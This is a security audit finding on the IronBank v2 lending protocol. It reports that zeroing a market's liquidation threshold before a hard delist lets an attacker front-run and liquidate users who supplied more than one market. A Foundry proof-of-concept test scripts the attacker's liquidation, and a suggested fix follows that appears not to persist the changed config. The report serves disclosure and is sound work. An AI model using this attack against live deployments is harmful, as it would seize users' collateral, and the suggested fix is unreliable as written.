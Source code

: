 Arz

high

# Setting the liquidationThreshold to 0 puts some users at risk of getting liquidated

## Summary

Before hard delisting a market the owner needs to first set the liquidationThreshold to 0. Because the _isLiquidatable() function doesnt calculate the collateral value if the liquidationThreshold is 0, some users can get liquidated. 

## Vulnerability Detail

Before the market is hard delisted, the liquidationThreshold needs to be set to 0. However, setting the liquidationThreshold to 0 puts some users at risk of getting liquidated. 
The  _isLiquidatable() function checks if the market has the liquidationThreshold set to 0. If its set to 0, the collateral value of the user wont be calculated. So when the owner sets the liquidationThreshold to 0, users that have supplied that market can get liquidated because the debt value will be bigger than the collateral value that isnt even calculated. 

The affected users are those who have supplied at least 2 markets, one of which is getting delisted. The market that is getting delisted cant be seized because of the isMarketSeizable() check but this doesnt mean that the other markets cant get seized. 


## Impact

All users that have supplied at least two markets, one of which is getting delisted are at risk of being liquidated because the collateralValue wont get calculated correctly. Even if the market is hard delisted right after the liquidationThreshold was set to 0, the attacker can front run the tx.

## Code Snippet

https://github.com/sherlock-audit/2023-05-ironbank/blob/main/ib-v2/src/protocol/pool/IronBank.sol#L1082

## Proof Of Concept

Here is an example of how can a user that supplied 2 markets, one of which is getting delisted can get liquidated by the attacker


```solidity

contract LiquidateAttackTest is Test, Common {
    uint16 internal constant reserveFactor = 1000; // 10%
    int256 internal constant market1Price = 1500e8;
    int256 internal constant market2Price = 200e8;
    int256 internal constant market3Price = 100e8;
    uint16 internal constant market1CollateralFactor = 8000; // 80%
    uint16 internal constant market1LiquidationThreshold = 9000; // 90%
    uint16 internal constant market1LiquidationBonus = 11000; // 110%

    IronBank ib;
    MarketConfigurator configurator;
    CreditLimitManager creditLimitManager;
    TripleSlopeRateModel irm;
    FeedRegistry registry;
    PriceOracle oracle;

    ERC20Market market1;
    ERC20Market market2;
    ERC20Market market3;

    address admin = address(64);
    address user1 = address(128);
    address attacker = address(256);

    function setUp() public {
        ib = createIronBank(admin);

        configurator = createMarketConfigurator(admin, ib);

        vm.prank(admin);
        ib.setMarketConfigurator(address(configurator));

        creditLimitManager = createCreditLimitManager(admin, ib);

        vm.prank(admin);
        ib.setCreditLimitManager(address(creditLimitManager));

        irm = createDefaultIRM();

        (market1,,) = createAndListERC20Market(18, admin, ib, configurator, irm, reserveFactor);
        (market2,,) = createAndListERC20Market(18, admin, ib, configurator, irm, reserveFactor);
        (market3,,) = createAndListERC20Market(18, admin, ib, configurator, irm, reserveFactor);

        registry = createRegistry();
        oracle = createPriceOracle(admin, address(registry));

        vm.prank(admin);
        ib.setPriceOracle(address(oracle));

        setPriceForMarket(oracle, registry, admin, address(market1), address(market1), Denominations.USD, market1Price);
        setPriceForMarket(oracle, registry, admin, address(market2), address(market2), Denominations.USD, market2Price);
        setPriceForMarket(oracle, registry, admin, address(market3), address(market3), Denominations.USD, market3Price);

        deal(address(market1), user1, 10000e18);
        deal(address(market2), user1, 10000e18);
        deal(address(market3), attacker, type(uint256).max);
        deal(address(market3), admin, 10000e18);


        vm.startPrank(admin);
        configurator.configureMarketAsCollateral(
            address(market1), market1CollateralFactor, market1LiquidationThreshold, market1LiquidationBonus
        );
        configurator.configureMarketAsCollateral(
            address(market2), market1CollateralFactor, market1LiquidationThreshold, market1LiquidationBonus
        );
        configurator.configureMarketAsCollateral(
            address(market3), market1CollateralFactor, market1LiquidationThreshold, market1LiquidationBonus
        );

        // Injest some liquidity for borrow.
        market3.approve(address(ib), type(uint256).max);
        ib.supply(admin, admin, address(market3), 10_000e18);
        vm.stopPrank();

        uint256 market1SupplyAmount = 10e18;
        uint256 market2SupplyAmount = 10e18;
        uint256 market2BorrowAmount = 136e18;

        vm.startPrank(user1);
        market1.approve(address(ib), market1SupplyAmount);
        market2.approve(address(ib), market1SupplyAmount);
        ib.supply(user1, user1, address(market1), market1SupplyAmount);
        ib.supply(user1, user1, address(market2), market2SupplyAmount);
        ib.borrow(user1, user1, address(market3), market2BorrowAmount);
        vm.stopPrank();
    }


    function testAttack() public {
        console.log("MARKET2 BALANCE OF THE USER BEFORE:", ib.getIBTokenBalance(user1, address(market2)));

        //Owner wants to delist a market so he sets the collateralFactor and the liquidationThreshold to 0
        vm.startPrank(admin);
        configurator.adjustMarketCollateralFactor(address(market1), 0);
        configurator.adjustMarketLiquidationThreshold(address(market1), 0);
        configurator.softDelistMarket(address(market1));
        vm.stopPrank();

        //The attack starts here
        //The attacker sees that the liquidationThreshold is set to 0 and liquidates someone before the market is hardDelisted
        vm.startPrank(attacker);
        market3.approve(address(ib), type(uint256).max);
        uint256 liquidationAmount = 18181818181818181819;
        ib.liquidate(attacker,user1,address(market3),address(market2),liquidationAmount);
        console.log("MARKET2 BALANCE OF THE USER AFTER:", ib.getIBTokenBalance(user1, address(market2)));
    }
}

```


## Tool used

Manual Review

## Recommendation

Set the liquidationThreshold to 0 and hard delist in one function.  

```solidity
function hardDelistMarket(address market) external onlyOwner {
        DataTypes.MarketConfig memory config = getMarketConfiguration(market);
        require(config.isListed, "not listed");
        require(config.isSupplyPaused() && config.isBorrowPaused(), "not paused");
        require(config.reserveFactor == MAX_RESERVE_FACTOR, "reserve factor not max");
        require(
            config.collateralFactor == 0,
            "collateral factor not zero"
        );

        if (config.isPToken) {
            address underlying = PTokenInterface(market).getUnderlying();
            DataTypes.MarketConfig memory underlyingConfig = getMarketConfiguration(underlying);
            // It's possible that the underlying is not listed.
            if (underlyingConfig.isListed && underlyingConfig.pTokenAddress != address(0)) {
                underlyingConfig.pTokenAddress = address(0);
                ironBank.setMarketConfiguration(underlying, underlyingConfig);

                emit MarketPTokenSet(underlying, address(0));
            }
        }
        config.liquidationThreshold = 0;
        ironBank.delistMarket(market);

        emit MarketDelisted(market);
    }

```
